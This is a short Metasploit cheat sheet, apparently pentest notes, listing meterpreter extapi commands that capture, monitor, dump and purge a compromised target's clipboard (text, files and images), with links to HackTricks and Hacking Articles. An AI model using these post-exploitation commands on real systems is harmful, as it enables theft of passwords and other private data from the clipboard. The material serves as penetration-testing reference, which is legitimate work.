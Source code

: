 # Metasploit

Load the `meterpreter` extension.

```
meterpreter > load extapi
```

Collect clipboard from the target's machine from text, files, and images.

```
meterpeter > clipboard_get_data
```

Begin monitoring the target's clipboard.

```
meterpeter > clipboard_monitor_start
```

Dump all the captured clipboard content during monitoring.

```
meterpeter > clipboard_monitor_dump
```

Pause the clipboard monitoring

```
meterpeter > clipboard_monitor_pause
```

Resume the clipboard monitoring

```
meterpeter > clipboard_monitor_resume
```

Delete all the captured clipboard content without dumping.

```
meterpeter > clipboard_monitor_purge
```

Halt monitoring the target's clipboard.

```
meterpeter > clipboard_monitor_stop
```

---
## References

### Hacktricks

- [Hacktricks: Linux Hardening Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)

### Hacking Articles

- [Hacking Articles: Metasploit for Pentester - Clipboard](https://www.hackingarticles.in/metasploit-for-pentester-clipboard/)